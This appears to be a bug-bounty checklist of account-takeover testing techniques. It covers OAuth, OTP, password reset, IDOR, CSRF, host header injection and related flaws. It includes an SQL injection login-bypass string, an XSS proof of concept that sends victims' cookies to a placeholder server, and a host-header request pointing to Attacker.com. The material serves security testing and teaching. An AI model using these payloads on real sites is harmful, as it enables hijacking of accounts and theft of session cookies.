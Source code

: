 [ ] **a lot of ideas in this article by omar hashem**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```
[ ] **OAuth to Account takeover**
```
https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
```


[ ] **Pre-Account Takeover**                                                  

A pre-account takeover occurs when an attacker creates a user account using one signup method and the victim creates another account using a different signup method using the same email address. Because the email addresses are the same, the application connects the two accounts. when the app is unable to validate email addresses.
```
How to hunt :-
    Try registering any email address without verifying it.
    Try registering an account again, but this time with a different method, such as ‘sign up with Google’ from same email address.
    Due to the fact that both email addresses are the same, the web application will link the two accounts.
    Now try logging in using the specified password and username. Check to see whether you can see information from that account that was retrieved via Google.
```


[ ] **Account takeover due to Improper Rate limit**
```
How to Hunt:-

    capture the request at the login page, while providing username and password.
    send it to intruder and Brute force it.
    Analyze the response and length.
```


[ ] **Account takeover by utilizing sensitive data exposure**
```
Sensitive data exposure occurs when a web application failed to properly protect confidential information, resulting in the disclosure of sensitive information or data about users, or anything related to them, to a third party.

Occasionally, the application displays unnecessary data, such as valid OTPs, hashes, or passwords, over the request and response parts. So it’s a good idea to pay attention to the response and request portions.
```


[ ] **login**                                                                                                                                 
```
1. check if you are able to brute force the password
2. Test for OAuth misconfigurations
3. check if you are able to bruteforce the login OTP
4. check for JWT mesconfigurations
5. Test for SQL injection to bypass authentication ```admin" or 1=1;--```
6. check if the application validates the OTP or Token
```


[ ] **password reset**
```
1. check if you are able to brute force the password reset OTP
2. test for token predectability
3. test for JWT misconfigurations
4. check if the password reset endpoint is vulnerable to IDOR
5. check if the password reset endpoint is vulnerable to Host Header injection
6. check if the password reset endpoint is leaking the token or OTP in the HTTP response
7. check if the application validates the OTP or Token
8. test for HTTP parameter Pollution (HPP)
    
```


[ ] **XSS to Account Takeover**

if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password       
```
1. try to exfiltrate the cookies
2. try to exfiltrate the Auth Token
3. if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies
    - PoC Example:
        ```html
        
        <script>
            /*
            this script will create a hidden <img> element
            when the browser tries to load the image
            the victim's cookies will be sent to your server
            */

            var new_img = document.createElement('img');
            new_img.src = "http://yourserver/" + document.cookie;
            new_img.style = 'display: none;'
            document.body.appendChild(new_img);
        </script>

        ```
```


[ ] **CSRF to Account Takeover**
```
1. check if the email update endpoint is vulnerable to CSRF
2. check if the password change endpoint is vulnerable to CSRF
```


[ ] **IDOR to Account Takerover**
```
1. checck if the email update endpoint is vulnerable to IDOR
2. check if the password change endpoint is vulnerable to IDOR
3. check if the password reset endpoint vulnerable to IDOR
```


[ ] **Account takeover by Response & Status code Manipulation**


[ ] **Account takeover by exploiting Weak cryptography**
```
check this
https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9
```


[ ] **Password or email change function**
```
IF you try to change password and see email parameter in password change request, Try changing your email to victim email
```


[ ] **Sing-Up Function**
```
IF you try to sing-up new account in target site, in email filed try set target email

IF you try to sing-up new account in target site using 3rd party, in 3d party use phone number instead email then link 3rd account with target site.Then Go setting try link victim email in you account
```

[ ] **Rest Token**
```
Try to use your REST Token with Target account. Hint: email=Target@email.com&code=$Attacker_TOKEN$

Brute Force Rest Token if it is numeric. Hint : email=Target@email.com&code=$TOKEN$

Try to figure out how the token are generated: 1. Generated based on TimeStamp OR ID of user OR email of user
```

[ ] **Host Header Injection**
```
when send rest account request intercept POST Request and Change Host header value from target.site TO Attacker.com: Hint POST /PassRest HTTP1/1 Host: Attacker.com
```

[ ] **CORS Misconfiguration to Account Takeover**

If the page contains CORS missconfigurations you might be able to steal sensitive information from the user to takeover his account or make him change auth information for the same purpose:
```
https://book.hacktricks.xyz/pentesting-web/cors-bypass
```
[ ] **Account takeover via leaked session cookie**
```
https://hackerone.com/reports/745324
```
[ ] **HTTP Request Smuggling to ATO**
```
https://hackerone.com/reports/737140
https://hackerone.com/reports/740037
```

[ ] **Bypassing Digits origin validation which leads to account takeover**
```
https://hackerone.com/reports/129873
```
[ ] Top ATO report in hackerone
```
https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPACCOUNTTAKEOVER.md
```
